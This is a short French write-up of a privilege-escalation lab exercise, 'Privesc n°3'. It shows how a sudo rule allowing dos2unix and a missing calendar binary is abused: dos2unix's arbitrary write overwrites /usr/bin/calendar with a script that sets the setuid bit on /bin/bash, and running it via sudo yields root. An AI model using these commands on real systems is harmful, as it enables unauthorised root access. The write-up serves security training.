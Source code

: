 # Privesc n°3

## Déploiement

```bash
sudo bash build.sh
```

## Writeup

```bash
$ sudo -l
User student may run the following commands on privesc1:
    (ALL) /usr/bin/dos2unix
    (ALL) /usr/bin/calendar
```

On peut lancer dos2unix et calendar en root.
On remarque que le fichier calendar n'existe pas.


On apprend sur gtfobin que dos2unix permet de faire un arbitrary write.
- https://gtfobins.github.io/gtfobins/dos2unix/

On va donc créer  un fake calendar pour utiliser la commande sudo pour le lancer. 

calendar : 

```bash
#!/bin/bash

chmod +s /bin/bash # or reverse shell or whatever
```

```bash
chmod +x calendar
sudo dos2unix -f -n calendar /usr/bin/calendar
sudo /usr/bin/calendar # done
```
